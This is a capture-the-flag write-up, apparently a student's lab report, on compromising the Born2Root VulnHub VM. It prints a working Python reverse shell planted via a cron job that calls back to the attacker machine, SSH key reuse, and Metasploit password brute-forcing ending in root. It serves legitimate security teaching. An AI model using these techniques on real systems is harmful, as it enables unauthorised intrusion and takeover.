






# **Born2Root: CTF challenge on Vulnhub**

## **Scenario**
This laboratory descibes an attack towards a VM called _Born2Root_ that contains 3 different users. The objective is to capture the flag after obtaining root priviledges on target machine.

**Threat model**: the adversary has access to the subnet where the target machine is located and has the ability to know the users.

## **Virtual Enviroments**
1. **Kali Linux 2023.3** -> attacker machine
2. **Born2Root Debian 32 bits** -> target VM that contains the flag

## **Tools**
1. **Nmap** -> Identify devices and open ports
2. **Dirb** ->  command-line web content scanner used for brute-forcing directories and files on web servers
3. **Netcat** -> tool used for starting a listener on a certain port
4. **Cupp** -> tool designed for social engineering-based password list generation
5. **Crunch** -> command-line tool used to generate custom wordlists

## **Execution Steps**

### Network Discovery

The attacker uses `ip a` to gain knowledge of his private ip (10.0.2.4 in this case) and uses this information to gain knowledge of the network with the command `nmap -sV 10.0.2.0/24 `.

"-sV" abilitates nmap to try and determine the services on the open ports.



Port 80 is open so the attacker types the ip address of the target machine in his browser tab, accessing the following web page:



No notable information can be found here, so the attacker uses the command `dirb http://10.0.2.5` to explore more directories in hopes of finding useful data.
The results from this operation are as follows:

```markdown
---- Scanning URL: http://10.0.2.5/ ----
==> DIRECTORY: http://10.0.2.5/files/                                                                   
==> DIRECTORY: http://10.0.2.5/icons/                                                                                                                     
+ http://10.0.2.5/index.html (CODE:200|SIZE:5651)                                                                                                    
==> DIRECTORY: http://10.0.2.5/manual/                                                                                                                    
+ http://10.0.2.5/robots.txt (CODE:200|SIZE:57)                                                                                                           
+ http://10.0.2.5/server-status (CODE:403|SIZE:296) 
```

After some exploration, with his browser, of the directories the attacker understands that the only interesting one is /icons.
He finds a file called **VDSoyuAXiO.txt**, that contains a private key!

### Spawning a shell as user Martin

Once copied to the sshKey.txt file it is ready to be used to spawn a shell using ssh.
The code used is the following:

1. `chmod 600 sshKey`: commmand  needed because ssh only accepts a key that can be read by the propetary

2. `ssh -i sshKey martin@10.0.2.5`: the _-i_ is used to specify a certain private key. This command doesn't work because of the following error: _sign_and_send_pubkey: no mutual signature supported_. This happens because the private key is RSA and in modern clients this cryptography is deactivated by default (weak keys).

3. `ssh -o PubkeyAcceptedKeyTypes=+ssh-rsa -o HostkeyAlgorithms=+ssh-rsa -i sshKey martin@10.0.2.5`: this is the command that abilitates the use of RSA keys and spawns a shell on the target machine as user martin.
   


Once inside we explore the file system starting from "/" and we encounter the file **Crontab** in "/etc/Crontab".
This is a file that specifies scheduled tasks on Unix/Linux Systems.



The attacker finds that a file to called **sekurity.py**, in the "/tmp/", is to be executed every 5 minutes. But the file is missing from the folder. So the attacker creates a program that spawns a reverse shell and saves it as sekurity.py in the "/tmp/" folder.

`nano sekurity.py`: command for creating the file from the shell

content of the file sekurity.py:

```python
  #!/usr/bin/python  ->  used to activate the python interpreter
  import socket,subprocess,os 
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM) # -> creates an IPv4 socket
  s.connect(("10.0.2.4",1337)) # -> connects the socket to Kali machine on port 1337
  os.dup2(s.fileno(),0)
  os.dup2(s.fileno(),1)
  os.dup2(s.fileno(),2) # -> redirecting all stdin, stdout, stderr of the process to the socket
  p=subprocess.call(["/bin/sh","-i"])  # -> starts an interactive shell that communicates over the socket
```
Next step is setting up a **Netcat** listener on port 1337 and wait for the cronjob to execute our file.

`nc -lvp 1337`: "-l" is for listening, "-v" is verbose mode, "-p" 1337 specifies port number.

### Spawning a reverse shell as user Jimmy

Since the process spawned belongs to Jimmy, the shell will also belong to him. After some exploration the attacker couldn’t find anything that could help him root the machine.

The attacker decides to focus on the third and final user: Hadi

### Brute-forcing password of user Hadi

First attempt is to use **cupp** to create a dictionary using as input the username "hadi". This generates a file called Hadi.txt with 104 words but that doesn't contain the password for the account.

`cupp -i`: spawns an interactable version of cupp where one can input some parameters

Second attempt is to use **crunch** to generate a more specific dictionary. This was done for the sake of brevity, since using rockyou.txt was taking a lot of time.

`crunch 7 7 -t hadi%%% -o hadi.txt`: creates a dictionary containing all combinations of hadi followed by three numbers.

Both attempts were executed using metasploit in the following manner:
1. `Msfconsole -q` -> starting metasploit
2. `use auxiliary/scanner/ssh/ssh_login` -> selecting the ssh brute forcing login
3. `set rhosts 10.0.2.5` -> setting target ip address
4. `set username hadi` -> setting username fro the attack
5. `set pass_file hadi.txt` -> setting dictionary with passwords
6. `run` -> starting the attack




After the attack has succeded the attacker can look and link the created session with the following commands:
1. `Sessions` -> shows active sessions
2. `Sessions -i "id_session_number"`  -> attaches to the session selected

### Spawning a shell as user Hadi

Once the session is created, a shell is spawned as user hadi. The attacker can then upgrade the shell to a full interactive one, with the command:

`
python -c "import pty; pty.spawn('/bin/bash')"
`

After this step the attacker can gain root privileges with the command:

`
su - root
`

This requests the password of user hadi that the attacker knows. Now the attacker has root privileges and can use the command:

`
ls -al
`

This lists all the files, especially the file flag.txt.
Finally the attacker uses the command:

`
cat flag.txt
`

This shows on the screen the content of the file and concludes the challenge.




## **References**

### LLM Usage
* I declare that _ChatGPT_ was used for tecnical support.

### Bord2Root VW
 * [<u>https://www.vulnhub.com/entry/born2root-1,197/#download</u>](https://www.vulnhub.com/entry/born2root-1,197/#download)

### Hack the Boot2Root VM (guide for the CTF)
   * [<u>https://www.hackingarticles.in/hack-born2root-vm-ctf-challenge/</u>](https://www.vulnhub.com/entry/born2root-1,197/#download)

